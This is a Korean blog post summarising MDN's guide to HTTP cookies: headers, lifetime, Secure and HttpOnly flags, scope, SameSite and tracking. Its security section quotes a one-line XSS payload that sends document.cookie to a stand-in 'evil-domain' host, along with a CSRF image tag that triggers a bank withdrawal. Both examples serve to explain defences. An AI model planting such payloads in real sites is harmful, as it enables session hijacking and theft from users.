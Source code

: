 ```yaml
---
layout: post
title:  Cookie- MDN
date:   2021-08-02 15:01:35 +0300
image:  https://user-images.githubusercontent.com/77090941/119234172-69717180-bb67-11eb-8acc-f687aa97de80.jpg
tags:   Style
---
```

### MDN HTTP cookie

HTTP쿠키는 서버가 사용자의 웹브라우저에 전송하는 작은 데이터 조각이다.
브라우저는 그 데이터 조각들을 저장해 놓았다가, 동일한 서버에 재 요청 시 저장된 데이터를 함계 전송합니다. 쿠키는 두 요청이 동일한 브라우저에서 들어왔는지 아닌지를 판단할 때 주로 사용합니다. 이를 이용하면 사용자의 로그인 상태를 유지할 수 있습니다. 상태가 없는(stateless) HTTP 프로토콜에서 상태 정보를 기억시켜주기 때문입니다. 

쿠키의 사용 목적
1. 세션관리(Session management): 서버에 저장해야 할 로그인, 장바구리, 게임 그코어 등의 정보 관리
2. 개인화(Personalization): 사용자 선호, 테마 등의 세팅
3. 트래킹(Tracking): 사용자 행동을 기록하고 분석하는 용도 

과거엔 클라이언트 측에 정보를 저장할 때 쿠키를 주로 사용하곤 했습니다. 쿠키를 사용하는 게 데이터를 클라이언트 측에 저장할 수 있는 유일한 방법이었을 때는 이 방법이 타당했지만, 지금은 modern storage APIs를 사용해 정보를 저장하는 걸 권장합니다. 모든 요청마다 쿠키가 함께 전송되기 때문에, 성능이 떨어지는 원인이 될 수 있습니다. 정보를 클라이언트 측에 저장하려면 Modern APIs의 종류인 웹 스토리지 API와 indexDB를 사용하면 됩니다.

> 저장된 쿠키를 보려면, 개발자 도구에서 Storage inspector를 활성화하고 스토리지 트리에서 쿠키 스토리지를 선택하면 됩니다. 

* 쿠키 만들기

HTTP 요청을 수신할 떄, 서버는 응답과 함께 Set-Cookie 헤더를 전송할 수 있습니다. 쿠키는 보통 브라우저에 의해 저장되며, 그 후 쿠키는 같은 서버에 의해 만들어진 요청(Request)들의 Cookie HTTP 헤더안에 포함되어 전송됩니다. 만료일 혹은 지속시간(duration)도 명시될 수 있고, 만료된 쿠키는 더이상 보내지지 않습니다. 추가적으로, 특정 도메인 혹은 경로 제한을 설정할 수 있으며 이는 쿠키가 보내지는 것을 제한할 수 있습니다. 

* Set-Cookie 그리고 Cookie 헤더
  
Set-Cookie HTTP 응답 헤터는 서버로 부터 사용자 에이전트로 전송됩니다. 간단한 쿠키는 다음과 같이 설정될 수 있습니다. 
> Set-Cookie: <cookie-name>=<cookie-value>

이 서버 헤더는 클라이언트에게 쿠키를 저장하라고 전달합니다. 

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry

[page content]
```
이제, 서버로 전송되는 모든 요청과 함께, 브라우저는 Cookie 헤더를 사용하여 서버로 이전에 저장했던 모든 쿠키들을 회신할 것입니다.

```
GET /sample_page.html HTTP/1.1
HOST: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

* 쿠키의 라이프타임

쿠키의 라이프타임은 두가지 방법으로 정의할 수 있습니다.
1. 세션 쿠키는 현재 세션이 끝날 때 삭제됩니다. 브라우저는 "현재 세션"이 끝나는 시점을 정의하며, 어떤 브라우저들은 재시작할 때 세션을 복원해 세션 쿠키가 무기한 존재할 수 있도록 합니다.
2. 영속적인 쿠키는 Expires 속성에 명시된 날짜에 삭제되거나, Max-Age 속성에 명시된 기간 이후에 삭제됩니다. 

> Set-Cookie: id=a3Wa; Expires=Wed, 21 oct 2015 07:28:00 GMT;
> Note: 만료기한이 정해질 때, 시간은 쿠키를 생성한 클라이언트에 종속(?)


* Secure 과 HttpOnly 쿠키
Secure 쿠키는 HTTPS 프로토콜 상에서 암호화된(encrypted)요청일 경우에만 전송됩니다. 하지만 Secure일지라도 민감한 정보는 절대 쿠키에 저장되면 안됩니다. 본질적으로 안전하지 않고 이 플래그가 당신에게 실질적인 보안(real protection)을 제공하지 않기 때문입니다. 크롬52 혹은 파이어폭스 52로 시작한다면, 안전하지 않은 사이트(http:)는 쿠키에 Secure 설정을 지시할 수 없습니다.

Cross-site 스크립팅(XSS)공경을 방지하기 위해, HttpOnly 쿠키는 JavaScript의 Document.cookie API에 접근할 수 없습니다. 그들은 서버에세 전송되기만 합니다. 예를 들어, 서버 쪽에서 지속되고 있는 세션 쿠키는 JacaScript를 사용할 필요성이 없기 때문에 HttpOnly 플래그가 설정 될 것입니다.

> Set-Cooike: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly

* 쿠키의 스코프

Domain 그리고 Path 디렉티브는 쿠키의 스코프를 정의합니다. 어떤 URL을 쿠키가 보내야 하는지
Domain은 쿠키가 정송되게 될 호스트를 명시합니다. 만약 명시되지 않는다면, (서브 도메인은 포함되지 않는) 현재 문서 위치의 호스트 일부를 기본값으로 합니다. 도메인이 명시되면, 서브도메인 상에 포함되게 됩니다. 
Path는 Cookie 헤더를 전송하기 위하여 요청되는 URL 내에 반드시 존재해야 하는 URL경로입니다. %x2F("/") 문자는 디렉트브 구분자로 해석되며 서브 디렉토리들과 잘 매치될 것입니다.

만약 Path=/docs이 설정되면, 다음의 경로들은 모두 매치될 것입니다.

- /docs
- /docs/Web/
- /docs/Web/HTTP

* SameSite 쿠키

sameSite 쿠키는 쿠키가 cross-site 요청과 함께 전송되지 않았음을 요구하게 만들어, cross-site 요청 위조공경(CSRF)에 대해 어떤 보호 방법을 제공합니다. samesite 쿠키는 여전히 실험중이며 일부의 브라우저에서만 제공되고 있습니다.

Document.cookie를 사용한 자바스크립트 접근 
새로운 쿠키들은 Document.cookie를 사용해 만들어질 수도 있으며, HttpOnly 플래그가 설정되지 않은 경우 기본의 쿠키들은 자바스크립트로 부터 잘 접근될 수 있습니다. 

```
document.cookie="yummy_cookie=choco";
document.cookie="tasty_cookie=strawberry";
console.log(document.cookie);
// log =>> "yummy_cookie=choco; tasty_cookie=strawberry"
```
아래 보안 섹션에서 다루고 있는데로 보안 관련 내용들을 잘 알아두시기 바랍니다. 자바스크립트에서 이용 가능한 쿠키들은 XSS를 통해 감청될 수 있습니다.

보안
> 기밀 혹은 민감한 정보는 전체 메커니즘이 본질적으로 위험하기 때문에 HTTP 쿠키 내에 저장되거나 전송되어서는 안됩니다.

세션 하이재킹과 Xss
쿠키는 대게 웹 애플리케이션에서 사용자와 그들의 인증된 세션을 식별하기 위해 사용되곤 합니다. 그래서 쿠키를 가로채는 것은 인증된 사용자의 세션 하이재킹으로 이어질 수 있습니다. 쿠키를 가로채는 일반적인 방법은 소셜 공학 사용 혹은 애플리케이션 내 XSS 취약점을 이용하는 것을 포함합니다. 
> (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie="+ document.cookie;

HttpOnly 쿠키 속성은 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 이런 공격을 누그러뜨리는데 도움을 줄 수 있습니다.

* Cross-site 요청 위조(CSRF)
위키피디아의 예를 찾아보면 
> <img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory>

위의 이미지 파일을 클릭했을 떄, 당신의 쿠키가 유효하다면 별다른 검증 절차없이 돈이 이체될 것입니다. 이런 일들을 방지하기 위한 몇가지 기술이있습니다.

- Xss와 마찬가지로, 입력 필터링은 중요한 문제입니다.
- 모든 민감한 동작에 필수로 요구되는 확인 절차가 항상 수행되도록 합니다. 
- 민감한 동작에 사용되는 쿠키는 짧은 수명만 갖도록 합니다.

* 트래킹과 프라이버시

    * 서드파티 쿠키
    
    쿠키는 그와 관련된 도메인을 가집니다. 이 도메인이 당신이 현재 보고 있는 페이지의 도메인과 동일하다면, 그 쿠키는 퍼스트파티 쿠키라고 불립니다. 만약 도메인이 다르다면, 서드파티 쿠키라고 부릅니다. 퍼스트파티 쿠키가 그것을 설정한 서버에만 전송되는데 반해, 웹페이지는 다른 도메인의 서버 상에 저장된(광고 배너와 같은) 이미지 혹은 컴포넌트를 포함할 수도 있습니다. 이러다 서트파티 컴포넌트를 통해 전송되는 쿠키들을 서트파티 쿠키라고 부르며 웹을 통한 광고와 트래킹에 주로 사용됩니다. 구글이 사용하느 쿠키 타임을 예로 참고하시기 바랍니다. 대부분의 브라우저들은 기복적으로 서드파티 쿠키를 따르지만 , 그것을 차단하는데 이용되는 애드온들이 있습니다. (EFF에서 만든 Privacy Badger)

    당신이 만약 서드파티 쿠키를 공개하고 있지 않다면, 쿠키 사용이 밝혀질 경우 소비자 신뢰를 잃을 수도 있습니다.(프라이버시 정책과 같은) 명백한 공개는 쿠키 발견과 관련된 모든 부정적인 효과를 없애는 경향이 있습니다. 어떤 국가들은 쿠키에 관한 법률도 가지고 있습니다. 

    * Do-Not-Track
    
    쿠키 사용에 대한 합법적이거나 기술적인 요구사항은 없지만, DNT 헤더는 웹 애플리케이션이 트래킹 혹은 개인 사용자의 cross-site 사용자 트래킹 모두를 비활성화하는 신호로 사용될 수 있습니다. 좀 더 자세한 내용은 DNT 헤더를 참고하시기 바랍니다.

    * 좀비 쿠키와 Evercookie

    쿠키에 대한 좀 더 급진적인 해결책은 삭제 이후에 다시 생성되는 좀비 쿠키 혹은 "Evercookies"이며 의도적으로 영원히 제거하는 것이 어려운 쿠키입니다. 그들은 쿠키가 존재 여부와 관계없이 그들 자신을 다시 만들어내기 위해 웹 스토리지 API, Flash 로컬 공유 객체 그리고 다른 기술들을 사용하고 있습니다. ㅋ